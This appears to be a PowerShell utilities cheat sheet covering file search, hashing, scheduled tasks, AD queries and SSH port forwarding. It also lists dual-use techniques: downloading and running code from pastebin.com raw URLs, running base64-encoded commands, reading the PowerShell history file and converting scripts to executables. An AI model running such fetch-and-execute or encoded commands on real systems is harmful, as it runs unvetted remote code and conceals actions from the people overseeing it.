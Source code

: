 Powershell Utilities
--------------------

Research file:
```powershell
Get-Childitem -Path C:\ -Include *.exe -Recurse -ErrorAction SilentlyContinue
```

Select single value:
```powershell
Get-Childitem -Path C:\ -Include uninstall.exe -Recurse -ErrorAction SilentlyContinue | Select-Object FullName
```

Output a file txt:
```powershell
| Out-File -FilePath C:\Users\$env:UserName\Desktop\nomefile.txt
```

Output a JSON:
```powershell
| ConvertTo-Json
```

File hash:
```powershell
Get-FileHash C:\nomefile.txt
```

Search file and get file hash:
```powershell
Get-Childitem -Path C:\ -Include uninstall.exe -Recurse -ErrorAction SilentlyContinue | Get-FileHash | format-list *
```

Scheduled Task information:
```powershell
Get-ScheduledTask | ForEach-Object {
[pscustomobject]@{
Name = $_.TaskName
Path = $_.TaskPath
LastResult = $(($_ | Get-ScheduledTaskInfo).LastTaskResult)
NextRun = $(($_ | Get-ScheduledTaskInfo).NextRunTime)
Status = $_.State
Command = $_.Actions.execute
Arguments = $_.Actions.Arguments
}
} | Out-File -FilePath C:\Users\$env:UserName\Desktop\Scheduled.txt
```

AD Users created in the last 50 days:
```powershell
$DateCutOff = (Get-Date).AddDays(-50)
Get-ADUser -Filter * -Properties whenCreated | where {$_.whenCreated -gt $DateCutOff} | FT Name, whenCreated
```

Env variables:
```powershell
$env:UserName
$env:UserDomain
$env:ComputerName
```

Grep:
```powershell
| Select-String word
```

PowerShell to .exe:
```powershell
Install-Module -Name ps2exe
ps2exe '.\file.ps1'
```

AD User information:
```powershell
Get-ADUser -identity erricos -properties *
```

PS-History:
```powershell
Get-Content C:\Users\$env:UserName\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt
```

Port Forwarding:
```powershell
ssh -L [localport]:[LAN IP of remote device] [admin]@[bridge machine IP]
ssh -L 8855:192.168.15.15:443 root@100.127.202.3
```
Then connect to http://localhost:8855/ or https://localhost:8855/

Base64 Encode:
```powershell
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes("echo asd"))
```

Base64 command exec (max 8192 char - UTF16LE):
```powershell
powershell.exe -encodedCommand RwBlAHQALQBXAG0AaQBPAGIAagBlAGMAdAAgAFcAaQBuADMAMgBfAFAAcgBvAGMAZQBzAHMAIAAtAEYAaQBsAHQAZQByACAAIgBuAGEAbQBlACAAPQAgACcAcABvAHcAZQByAHMAaABlAGwAbAAuAGUAeABlACcAIgAgAHwAIABTAGUAbABlAGMAdAAtAE8AYgBqAGUAYwB0ACAAQwBvAG0AbQBhAG4AZABMAGkAbgBlAA==
```

Base64 from PasteBin (from CMD):
```powershell
powershell.exe (powershell.exe (curl https://pastebin.com/raw/BmHCFauX).Content)
powershell.exe (powershell.exe -encodedCommand (curl https://pastebin.com/raw/J5dr6xTa).Content)
```

Process infos (es. process launched in Powershell by other processes):
```powershell
Get-WmiObject Win32_Process -Filter "name = 'powershell.exe'" | Select-Object CommandLine
```

Port connection:
```powershell
Test-NetConnection -Port 443 -ComputerName google.com -InformationLevel Detailed
```

